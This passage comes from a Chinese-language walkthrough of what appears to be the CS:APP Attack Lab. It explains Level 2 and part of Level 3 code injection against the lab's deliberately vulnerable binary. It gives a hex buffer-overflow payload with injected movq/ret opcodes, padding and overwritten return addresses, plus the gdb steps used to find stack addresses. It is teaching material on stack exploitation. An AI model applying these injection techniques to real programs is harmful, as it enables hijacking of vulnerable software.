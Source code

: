 然后使用以下命令

```text
gcc -c CI-L2.s #对CI-L2.s进行编译
objdump -d CI-L2.o > CI-L2.d #对其进行反编译
```

可以得到指令对应的十六进制编码

![img](https://pic1.zhimg.com/80/v2-5c9f09a8a0dbc51f007c21c52ac3947c_720w.jpg)

最后查看函数`touch2`对应的地址为`0x4017ec`。

我们可以将以上十六进制数按顺序拼接起来。**注意：**要将字符串填充40个，才能覆盖原始原始的返回地址。

```text
48 c7 c7 fa 97 b9 59 /* movq $0x59b997fa, %rdi */
c3 /* ret */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* match 40 */ 
78 dc 61 55 00 00 00 00 /* address 1 */
ec 17 40 00 00 00 00 00 /* touch2 */
```

**注意：**因为这里是64位程序，所以需要用8字节来表示地址。

然后再将其转化为对应的字符串`./hex2raw < CI-L2.txt > CI-L2-raw.txt`。

![img](https://pic4.zhimg.com/80/v2-788b313fbed4acfcce19c9d11ee75a5b_720w.jpg)

### Level 3

该题目标是将返回函数重定位到函数`touch3`，而该函数需要传递一个字符串参数

![img](https://pic4.zhimg.com/80/v2-09bcf26d6348a31e3191e658aff54143_720w.jpg)

要求我们传递进去的字符串是cookie，即`0x59b997fa`字符串形式，并且缺少`0x`，即字符串内容为`59b997fa`。

![img](https://pic4.zhimg.com/80/v2-7fe431b58e3bdbc343039de085993b43_720w.jpg)

**注意：**字符串直接按顺序保存在内存中，无需根据大端法和小端法进行调整。而字符串的地址是第一个字符对应的地址，直接将字符串指针作为参数，就能传递字符串，并且以末尾`\0`指示字符串结束。

我们可以按照以上方法构造我们输入的内容

![img](https://pic1.zhimg.com/80/v2-9df6696b934ccf0a5ed520d3f8896470_720w.jpg)

1. 当前栈顶指针`%rsp`指向的是我们注入的`mov`指令的地址，所以函数`getbuf`执行`ret`时，会开始执行我们的`mov`指令，就将字符串`59b997fa`的地址作为第一个参数，并且`%rsp`会指向`touch3`的地址
2. 当执行我们注入的`ret`时，就会开始执行`touch3`

（这里`mov`和`"59b997fa"`的位置可以任意）

我们首先在下图所示区域设置一个断点`break *0x4017ac`，运行命令`run -q`后，查看当前`%rsp`的值，` print /x $rsp`，可以得到当前的栈顶指针为`0x5561dc78`，即图中的`地址2`。

![img](https://pic3.zhimg.com/80/v2-6a1340f3ca880a60f89c86d6437c688e_720w.png)
